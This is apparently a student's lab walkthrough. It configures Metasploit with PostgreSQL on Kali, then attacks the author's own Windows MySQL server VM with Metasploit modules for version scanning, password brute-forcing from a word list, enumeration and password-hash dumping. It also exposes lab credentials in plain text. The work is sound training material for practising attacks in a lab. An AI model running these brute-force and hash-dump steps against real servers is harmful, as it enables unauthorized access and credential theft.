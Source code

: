 # Section 1: 

## In Kali VM: 

- Start PostgreSQL:
  ```bash
  sudo /etc/init.d/postgresql start
  ```
  - Reinstall PostgreSQL if necessary (due to missing database.yml in the directory /usr/share/metasploit-framework/config/database.yml):
    ```bash
    sudo apt install postgresql postgresql
    ```
  - Enable and restart PostgreSQL:
    ```bash
    sudo systemctl enable postgresql
    sudo systemctl restart postgresql
    ```
  - Verify PostgreSQL status:
    ```bash
    sudo systemctl status postgresql
    ```
  - Switch to postgres user and access PostgreSQL:
    ```bash
    sudo su - postgres
    psql -p 5433
    \du   # Check if 'postgres' user exists and is a superuser
    alter user postgres with password 'admin@123';
    \l   # Check for a database named 'postgres'
    
- Start Metasploit
   ```bash
    /etc/init.d/metasploit start # (old method, won't work)
    ```
  - Instead, install Metasploit Framework:
    ```bash
    sudo apt install metasploit-framework
    ```
  -  if **sudo systemctl start metasploit** work do not do the following comands else do this:
      - Verify Metasploit paths:
        ```bash
        which msfconsole
        locate metasploit-framework
        ```
     - Adjust Metasploit service configuration if paths differ:
       ```bash
       sudo nano /etc/systemd/system/metasploit.service
       ```
      <pre>
      [Unit]
      Description=Metasploit Framework
      After=network.target
      [Service]
      Type=simple
      ExecStart=/usr/local/bin/msfconsole
      User=root
      WorkingDirectory=/usr/local/share/metasploit-framework
      [Install]
      WantedBy=multi-user.target
      </pre>
  - Now start and check the status of metasploit
    ```bash
    sudo systemctl start metasploit
    sudo systemctl status metasploit
    ```
  - Start Metasploit console and wait for initialization:
    ```bash
    msfconsole
    ```
  - Within the metasploit console run the following:
      - Check database connection status:
        ```bash
        db_status
        ```
      - If not connected, configure database connection:
        ```bash
        db_connect –y /usr/share/metasploit-framework/config/database.yml
        ```
      - If you encounter this error in PostgreSQL configuration:
        ![Local Example](./images/SQL_Injection/cap1.JPG)
         - Do the following :
           ```bash
           sudo nano /etc/postgresql/14/main/postgresql.conf
           ```
            - Uncomment this line :
               ```bash
              # listen_addresses = 'localhost'
               ```
            - Adjust those lines to look like this :
              ```bash
              log_timezone = 'UTC'
              TimeZone = 'UTC'
              ```
            - Also go to this file
              ```bash
              sudo nano /etc/postgresql/14/main/pg_hba.conf
              ```
           - Ensure these lines exist:
             ```bash
             local   all     postgres                           peer
             
             local   all     all                                peer
             host    all     all           127.0.0.1/32         md5
             ```
           - Restart PostgreSQL:
             ```bash
             sudo systemctl restart postgresql
             ```
           - if there are any other errors try :
             ```bash
             sudo tail -n 50 /var/log/postgresql/postgresql-14-main.log
             ```
      - Update Metasploit database configuration:
        ```bash
        sudo nano /usr/share/metasploit-framework/config/database.yml
        ```
        - Example my configuration:
        <pre>
        development:
          adapter: postgresql
          database: msf6
          username: msf6
          password: RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=
          host: localhost
          port: 5432
          pool: 5
          timeout: 5
        production:
          adapter: postgresql
          database: msf6
          username: msf6
          password: RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=
          host: localhost
          port: 5432
          pool: 5
          timeout: 5
         </pre>
         
      - Create PostgreSQL database and user for Metasploit:
        ```bash
        sudo su - postgres
        psql -p 5433
        CREATE DATABASE msf6;
        CREATE USER msf6 WITH PASSWORD 'RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=';
        GRANT ALL PRIVILEGES ON DATABASE msf6 TO msf6;
        ```
     - Restart PostgreSQL and Metasploit:
       ```bash
       sudo systemctl restart postgresql
       sudo systemctl restart metasploit
     - Reconnect to Metasploit console and continue:
       ```bash
       msfconsole
       db_connect –y /usr/share/metasploit-framework/config/database.yml
       ```
       ![Local Example](./images/SQL_Injection/cap2.JPG)
       
## In Windows Server VM (MySQL Server)
     
Example commands inside Metasploit console:

- Install MySQL server on Windows Server
- Open terminal and connect to MySQL:
  ```bash
  mysql -u root -p
  ```
- Set up MySQL users and permissions: (192.168.43.93 : is the ip @ of my kali VM , and 'mounaMYSQL19' is my SQL server password)
  ```bash
  CREATE USER 'root'@'192.168.43.93' IDENTIFIED BY 'mounaMYSQL19';  
  GRANT ALL PRIVILEGES ON *.* TO 'root'@'192.168.43.93';
  FLUSH PRIVILEGES;

## In Kali VM
  
- inside msf console, execute Metasploit commands: ( 192.168.43.189 is the ip @ of my MYSQL server VM)
- 1- 
  ```bash
  use auxiliary/scanner/mysql/mysql_version
  ```
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  run
  ```
  ![Local Example](./images/SQL_Injection/cap3.JPG)
- 2-
  ```bash
  use auxiliary/scanner/mysql/mysql_login
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  set USERNAME root
  set PASS_FILE /mouna19/passwords.txt
  run
  ```
  ![Local Example](./images/SQL_Injection/cap4.JPG)
  ![Local Example](./images/SQL_Injection/cap5.JPG)
- 3-
  ```bash
  use auxiliary/admin/mysql/mysql_enum
  ```
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  set USERNAME root
  set PASSWORD mounaMYSQL19
  run
  ```
  ![Local Example](./images/SQL_Injection/cap6.JPG)
- 4-
  ```bash
  use auxiliary/scanner/mysql/mysql_hashdump
  ```
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  set USERNAME root
  set PASSWORD mounaMYSQL19
  run
  ```
  ![Local Example](./images/SQL_Injection/cap7.JPG)
- Open another terminal window in Kali for MySQL console access:
  ```bash
  mysql -u root -p -h 192.168.43.189
- Enter the password (e.g., mounamySQL19) to access MySQL console.
  ![Local Example](./images/SQL_Injection/cap8.JPG)
  ![Local Example](./images/SQL_Injection/cap9.JPG)
